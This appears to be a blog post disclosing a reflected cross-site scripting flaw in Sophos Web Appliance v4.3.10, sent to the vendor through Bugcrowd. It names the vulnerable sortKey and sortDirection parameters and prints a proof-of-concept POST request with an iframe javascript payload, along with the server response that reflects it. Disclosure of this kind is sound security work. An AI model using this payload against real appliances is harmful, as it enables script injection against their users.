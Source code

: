 ```yaml
---
layout: post
title:  "Cross-site scripting (XSS) in Sophos Web Appliance - v4.3.10"
date:   2023-04-30 19:51:02 +0700 
categories: [cve]
---
```


Vendor: Sophos

Product: Sophos Web Appliance

Version affected: v4.3.10

#### Product description:
The Sophos Web Appliance is designed to function as a web proxy that provides HTTP security at. the gateway. Potentially risky content is scanned for various forms of malware.

"Sophos Web Appliance (SWA) and Sophos Management Appliance (SMA) will reach End of Life (EOL) on 20 July 2023. When this happens, the products will continue to pass traffic but will no longer receive security or software updates. Cloud services with functions such as support services and LiveConnect will be turned off."

* CVE ID: awaiting, initially reported to Sophos on 15 May 2020 via Bugcrowd. Requested for CVE on Apr 28, 2023
* CWE ID: CWE-79

#### #Proof of Concept

Reflected cross-site scripting (XSS) vulnerability was discovered in the product.

A cross-site scripting vulnerability was identified.

It was possible to inject malicious code, I've successfully embedded a script in the response, which allowed me to execute it when the page loaded in the browser.

Tested on Firefox browser 76.0.1 (as of 15 May 2020).

Vulnerable input section were possible to set to:
sortDirection
sortKey

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### PoC:
{% highlight ruby %}
POST /index.php?c=report_scheduler HTTP/1.1
Content-Length: 116
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Host: 10.0.0.15
X-Requested-With: XMLHttpRequest
X-Prototype-Version: 1.6.1
Connection: keep-alive
Origin: https://10.0.0.15
Referer: https://10.0.0.15/index.php?c=report_scheduler&section=reports&STYLE=ea200102606123fe0ea40688110d6d0f
Accept: text/javascript, text/html, application/xml, text/xml, */*
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: en-US

action=load&sortKey=name&sortDirection=asc<iframe src=javascript:alert(1) &STYLE=4de217dd48aa30993948de8601493ef2&_=

HTTP/1.1 200 OK
Date: Fri, 15 May 2020 08:30:27 GMT
Server: Apache
Cache-Control: no-store, no-cache, must-revalidate, private, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: sameorigin
X-Content-Type-Options: nosniff
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
Content-Length: 144

{"sortKey":"name","sortDirection":"asc<iframe src=javascript:alert(1) ","schedulesJS":[],"schedulesList":"<ul id=\"table_entries_list\"><\/ul>"}
{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://support.sophos.com/support/s/article/KB-000039441?language=en_US
3. https://docs.sophos.com/nsg/swa/help/en-us/nsg/swa/concepts/AboutYourAppliance.html
